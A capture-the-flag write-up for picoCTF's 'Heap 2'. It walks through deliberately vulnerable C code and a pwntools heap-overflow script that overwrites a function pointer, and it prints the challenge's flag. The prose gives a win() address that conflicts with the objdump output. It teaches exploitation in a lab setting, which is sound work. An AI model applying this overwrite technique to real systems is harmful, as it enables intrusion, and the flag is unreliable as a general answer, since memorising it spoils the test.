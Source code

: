 ```yaml
---
layout: post
title:  "Heap 2"
description: Utilizing a buffer overflow payload to override pointers
date:   2024-10-22
tags: ["Medium", "Buffer Overflow", "Binary Exploitation"]
category: [CTF,picoCTF]
comments: true
contents: false
---
```


{: .prompt-info }
> **Provided By**  
> [Rivers](https://rivers.sh) <- visit their site!

## Challenge Info
Can you handle function pointers? Download the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall). Download the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).

Additional details will be available after launching your challenge instance.

## Understanding chall.c

The code for your convenience:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

- Defines a constant for the max size of the flag string (`FLAGSIZE_MAX`).
- Two char pointers are declared: `x` is used to store a string, `input_data` stores user input- each being 5 bytes of size.
- A `win()` function is declared. It reads the flag from a file (`flag.txt`) and prints it for us. It uses a buffer to store said flag, and ensures that it doesn't exceed `FLAGSIZE_MAX`
- A `check_win()` is declared. It executes a function at the address stored in the `x` pointer.
- The `init()` function allocates memory for `input_data` and `x`, and initializes them with the strings "pico" and "bico" respectively.
- The `write_buffer()` function asks the use for input, which the function will then store in `input_data` using `scanf` (recall that `scanf` is unsafe, as it does not check for buffer overflows).


## Vulnerabilities
There's several vulnerabilities to note:
- The `write_buffer()` function is using `scanf` to read user input. `scanf` is unsecure and can be overflowed.
- The `input_data` and `x` buffer are allocated to hold only 5 bytes (4 bytes and then a null character)
- The `check_win()` function executes code at the memory address being stored in `x`.


## Connecting to the netcat listener
```terminal
> nc mimas.picoctf.net 55662

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x18572b0  ->   pico
+-------------+-----------+
[*]   0x18572d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice:
```
Again, `pico` and `bico` are the values inside the buffers (`input_data` & `x` respectively) that were declared at the start. Again, the reason they're declared to be 5 bytes, is to leave 1 byte for the null character.

Just like last time, we're given the addresses. The only thing that's different is that these are buffers instead of variables. Again, we'll subtract the address of `pico` with the address of `bico`.

`0x22b82b0 - 0x22b82d0 = -0x20`. When ran through [cyber chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Decimal('Space',false)&input=LTB4MjA) (from hex to decimal) we get a value of 32. And because like last time, our initial hex value was negative, this means that `input_data` is 32 bytes behind `x`.


## The Plan

We now know that `input_data` is 32 bytes behind `x`. Additionally, we know that the `check_win()` function executes a function at the address stored in the `x` pointer. Finally we know that if a `win()` function is declared, it'll read us the flag.

*So, in short, we want to:* overflow to reach the `x` pointer, and then get it to hold a value identical to the address of the `win()` function, so that when `check_win()` is automatically ran, instead of executing *'bico'* at `x`, it will execute `win()`- thus giving us our flag.

## Solution

Before we write our payload, we need to know the address corresponding to `win()`. A simple [objdump](https://man7.org/linux/man-pages/man1/objdump.1.html) will reveal this:

```terminal
> objdump -d ./chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

We now know that `win()` is at `0x080484b6`. **However**, because of C's memory layout, we need to consider C's memory layout. C uses a little-endian system to ensure that the least significant bytes are placed first. Because of this, we want to input the address of `win()` in little-endian order.

Our payload should look something like this:

```py
from pwn import *

# Connect to the remote service
p = remote("mimas.picoctf.net", 53827)

# Construct the payload
payload = b"AAAA" * 8 + b"\xa0\x11\x40\x00\x00\x00\x00\x00"

# Send option '2' to allocate the object
p.sendline(b"2")

# Wait for the server to ask for the buffer input
p.recvuntil(b"buffer:")

# Send the constructed payload
p.sendline(payload)

# Wait for the next prompt (choice menu)
p.recvuntil(b"choice:")

# Send option '4' to check for win condition
p.sendline(b"4")

# Print the final output (possibly the flag)
print(p.recvall())
```

flag: `picoCTF{and_down_the_road_we_go_dde41590}`
